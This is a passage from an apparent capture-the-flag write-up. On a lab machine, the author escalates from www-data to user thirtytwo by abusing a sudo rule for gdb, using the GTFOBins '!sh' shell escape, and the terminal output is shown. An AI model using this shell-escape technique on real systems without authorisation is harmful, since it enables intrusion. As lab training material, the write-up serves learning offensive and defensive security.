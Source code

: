 Here, we can see a note from `d4rckh` that user `thirtytwo` can run the command `git` with `d4rckh`'s privilege level. So, for that we need to first check which commands do we have access to using the command `sudo -l`.

```
www-data@ubuntu-xenial:/home$ sudo -l

Matching Defaults entries for www-data on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu-xenial:
    (thirtytwo) NOPASSWD: /var/www/gdb
```

Not as `sudo`, but we can run the command `/var/www/gdb` as user `thirtytwo`. We can look for `gdb` command in [GTFOBins](https://gtfobins.github.io/) and find a `sudo` command for the same over there that we can modify a bit and use.

```
sudo /var/www/gdb -nx -ex '!sh' -ex quit
```

But this command didn't work because with `sudo` we try to run the command as `root`. But from `sudo -l` we can see that we are allowed to run this command as user `thirtytwo` and not `root`. So, we need to use the command:

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

And then we get the shell as user `thirytwo`:

```
www-data@ubuntu-xenial:/home$ sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit                  

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
whoami
thirtytwo
```

Now, we can check the commands that user `thirtywo` can run: 
